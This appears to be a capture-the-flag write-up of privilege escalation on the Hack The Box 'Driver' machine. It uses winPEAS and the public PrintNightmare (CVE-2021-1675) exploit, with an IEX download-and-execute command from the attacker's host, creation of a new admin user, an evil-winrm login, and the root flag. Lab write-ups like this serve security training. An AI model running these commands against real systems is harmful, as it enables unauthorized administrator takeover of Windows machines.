Since we have a shell on the remote machine we can try to use the winpeas tool to make an priv. Esc. Download the tool in your PC. (winPEASx64.exe because the machine target is a windows target)

https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

In the target machine, we will create a new directory. In this directory we will intall the winpeas tool to get an priv. esc.
```bash
$ C:\Windows\Temp> mkdir PrivEsc
```


Now we will try to upload to this directory the winpeas tool. To meke this we do:
```bash
$ upload /home/kali/Desktop/HTB_CTF/Driver/winPEASx64.exe
```


Now we execute the tool



This tool scan all the taget system to find the way to make an Priv Esc.
Winpeas tool found a TCP listening ports and one of these ports are “spoolsv”. This is interesting because the webpage was about printers.

If we find in google any exploit to this, we find the following.





Searching in google we found the following CVE.

https://github.com/calebstewart/CVE-2021-1675

So exist an CVE-2021-1675 that is specif for printers. This exploit create a user in system level.  So we will download the code from github
```bash
$  wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/refs/heads/main/CVE-2021-1675.ps1   
```


Now we create a local server.



Now in the machine target we will try to execute the exploit downloaded
```bash
$ IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/CVE-2021-1675.ps1')
```


And the script worked correctly




Now follow the github instructions. So we will create an user
```bash
$ Invoke-Nightmare -DriverName "Xerox" -NewUser "chus" -NewPassword "SuperSecure"
```


As you can see we are a administrator user. So we will turn to our computer to get a shell with winrm
```bash
$ evil-winrm -i 10.10.11.106 -u chus -p SuperSecure
```


As we are Administratos, we can access to the Administrators directory to find the flag.


```bash
root flag → d29a6e187bc75b8bfa67593a4972579f
```

[Back](README.md)